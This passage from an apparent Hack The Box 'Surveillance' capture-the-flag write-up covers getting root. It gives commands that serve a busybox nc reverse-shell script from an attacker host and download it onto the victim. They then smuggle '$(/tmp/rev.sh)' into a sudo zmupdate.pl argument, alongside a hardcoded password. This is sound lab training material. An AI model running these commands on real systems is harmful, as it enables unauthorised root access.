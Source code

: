 ![Untitled](Untitled%2014.png)

Note: I am not ashamed to admit, this part was the first part that really held me up… this is because the directory only has read and execute permissions, so we can’t just write a perl script and match the naming to that of the regex for the improper sudo permissions.. thus, we have to go through the zm- scripts in the `/usr/bin` directory. I couldn’t find any help in the [HTB Forums](https://forum.hackthebox.com/t/official-surveillance-discussion/304838/68) so I had to refer to a writeup

Run the below commands to get root

```bash
# on attacker machine
echo "busybox nc <attacker-ip> <listening-port> -e sh" > rev.sh

# in directory of rev.sh file
python3 -m http.server

nc -nvlp <listening-port>

# on victim machine
wget http://<attacker-ip>:8000/rev.sh /tmp/; chmod 700 /tmp/rev.sh

sudo /usr/bin/zmupdate.pl -v 1 -u '$(/tmp/rev.sh)' -p ZoneMinderPassword2023
```

With this, we are now root and can grab the root flag

![Untitled](Untitled%2015.png)

---
# Trophy


**User.txt**

![Untitled](Untitled%2016.png)

**Root.txt**

![Untitled](Untitled%2017.png)